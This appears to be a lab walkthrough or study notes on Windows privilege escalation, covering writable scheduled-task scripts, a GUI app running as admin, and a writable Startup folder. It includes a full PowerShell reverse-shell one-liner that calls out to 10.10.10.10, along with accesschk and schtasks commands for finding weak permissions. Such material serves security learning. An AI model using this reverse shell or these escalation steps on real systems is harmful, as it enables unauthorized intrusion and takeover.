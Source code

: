 ### Exploiting Scheduled tasks:

- Like in Linux there are schedules tasks in windows as well.
- To view all the schedules tasks run `schtasks /query /fo LIST /V`
- Here `CleanUp.ps1` seems interesting and the path is `C:\DevTools\CleanUp.ps1`
- So lets see what we can do this location as well as to that file, `accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1` and we have all the privileges to read, write...etc
- The process in the description of task is bit different so I looked for a powershell-reverseshell, which is,

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Then I transferred and renamed as `CleanUp.ps1` and I got connection.

---

### Insecure GUI apps:

- After getting RDP connection open `Taskmanager` and there in `Details` tab we can see the applications and the user, who's running that.
- Here they intentionally configured `mspaint.exe` to run as admin, so this will be out target.
- As we're working with **Paint** we'll have an option to open files, so we'll open `file://c:/windows/system32/cmd.exe` and boom! We go the shell as **admin** user!
- Here the functionality is bit limited coz we might not always get an RDP connection.

---

### Startup Apps:

- Windows has a feature to allow some apps to run in Startup, we can abuse this feature.
- Startup apps are found in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`, this is default path.
- Lets check what we can do thru **accesschk.exe**, so run `accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`. The output is,

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

- Here there's a script called `CreateShortcut.vbs` which runs with admin priviliges and the mail aim of this is to create a `shortcut` for the reverse-shell which we uploaded.
- Transfer payload and run the script now we need to wait till admin logins and then we'll get the shell.
- This is rare and chance of exploiting thru this is less.

---